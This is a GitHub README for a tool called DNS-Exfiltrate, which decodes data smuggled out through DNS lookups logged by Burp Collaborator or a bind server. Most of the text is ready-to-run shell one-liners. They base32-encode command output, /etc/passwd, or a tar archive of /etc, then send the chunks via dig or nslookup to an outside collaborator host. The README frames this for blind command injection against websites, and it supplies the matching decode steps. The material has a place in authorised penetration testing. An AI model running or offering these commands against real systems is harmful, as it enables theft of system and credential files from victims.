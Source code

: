 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode exfiltrated data. 

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

Exfiltrate the base32-encoded output from `whoami` via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Send STDOUT from a command:

```
ifconfig | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the output:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a file:

```
base32 -w 63 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
gzip - < /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/unzip the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/save the tar archive:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (/etc/passwd exfiltration):

```
/dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator1.log | base32 -d
```

[collaborator2.log](collaborator2.log) (gzipped /etc/passwd exfiltration):

```
/dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator2.log | base32 -d | zcat
```


